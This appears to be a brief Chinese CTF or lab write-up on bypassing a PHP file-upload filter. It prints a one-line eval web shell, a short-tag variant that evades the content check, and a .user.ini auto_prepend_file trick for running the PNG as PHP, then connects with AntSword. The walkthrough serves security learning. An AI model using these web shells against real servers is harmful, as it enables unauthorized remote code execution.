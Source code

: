 ![image-20250405162836625](./assets/image-20250405162836625.png)

上传php，php3，php5，phtml，pht都失败



上传包含一句话木马的png文件

ra1n3.png

```
<?php @eval($_POST[a]);?>
```

![image-20250405162909497](./assets/image-20250405162909497.png)

校验了文件内容

说明木马中存在敏感信息



利用短标签



```
<?= @eval($_POST[a]);?>
```

![image-20250405163731076](./assets/image-20250405163731076.png)

成功传入，但是png无法正常解析为php脚本执行



考虑利用.user.ini

```
auto_prepend_file=ra1n3.png
```

![image-20250405163833126](./assets/image-20250405163833126.png)



上传失败

将后缀名改为png

抓包上传

![image-20250405164012232](./assets/image-20250405164012232.png)

将png改为ini

![image-20250405164025736](./assets/image-20250405164025736.png)

![image-20250405164030255](./assets/image-20250405164030255.png)

成功上传



访问/upload

![image-20250405164222554](./assets/image-20250405164222554.png)

蚁剑连接